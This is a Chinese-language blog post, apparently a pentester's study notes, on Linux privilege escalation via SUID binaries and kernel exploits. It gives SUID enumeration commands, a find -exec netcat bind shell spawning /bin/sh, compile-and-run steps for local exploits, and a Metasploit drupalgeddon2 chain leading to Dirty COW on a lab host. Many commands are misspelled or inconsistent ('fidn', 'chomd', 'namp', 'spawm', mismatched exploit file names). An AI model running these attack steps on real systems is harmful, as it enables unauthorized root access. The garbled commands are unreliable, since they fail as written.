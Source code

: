 ```yaml
---
layout: post
title: '权限提升一'
subtitle: 'Linux脏牛内核漏洞&SUID&信息收集'
date: 2021-09-10
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 权限提升 
---
```


### 权限提升-Linux脏牛内核漏洞&SUID&信息收集

> 案例一：linux提权自动化脚本利用-4个脚本

两个信息收集：LinEnum、linuxprivchecker
两个漏洞探针：linux-exploit-suggester、linux-exploit-suggester2 //chmod +x 文件名 ------提权


> 案例二

漏洞成因：chmod u+s给予了suid u-s删除了suid
使程序在运行中受到了suid root权限的执行过程导致的
提权过程：探针是否有SUID（手工或脚本）-特定SUID利用-利用吃瓜-GG

	find / -user root -perm -4000 -print 2>/dev/null
	fidn / -perm -u=s -type f 2>/dev/null
	find / -user root -perm -4000 -exec ls -ldb {} \;

查看是否有下面的文件

	Nmap
	Vim
	find
	Bash
	More
	Less
	Nano
	cp

找到find，借助find命令执行[参考](https://pentestlab.blog/2017/09/25/suid-executables/)

	touch xiaodi
	
	find xiaodi -exec whoami \;
	find xiaodi -exec netcat -lvp 5555 -e /bin/sh \;

> 案例三 linux提权本地配合内核漏洞演示-Mozhe

提权过程：过程-获取可利用漏洞-下载或上传EXP-编译EXP-给权限执行-GG

	gcc 45010.c -o 45010
	
	chomd +x 45010
	
	./45010  
	
	id

> linux提权脏牛内核漏洞演示-linux-exploit-suggester

内核提权整个过程：（linux-exploit-suggester获取信息哦）

vulnhub靶机-探针目标-CMS漏洞利用-脚本探针提权漏洞-利用内核提权-GG

内核漏洞提权过程：寻可用-下exp-上/tmp-编译exp-执行（无权限用chmod）

	namp 192.168.76.0/24
	namp -pl-65535 192.168.76.141
	search drupal
	use exploit/unix/webapp/drupal_drupalgeddon2
	set rhost 192.168.76.141
	set rport 1898
	set target 0
	run
	upload /tmp/40837.cpp /tmp/40837.cpp
	g++ -Wall -pedantic -O2-std=c++11 -pthread -o dcow 40847.cpp -lutil
	python -c 'import pty;spawm("/bin/bash")'
	./docw
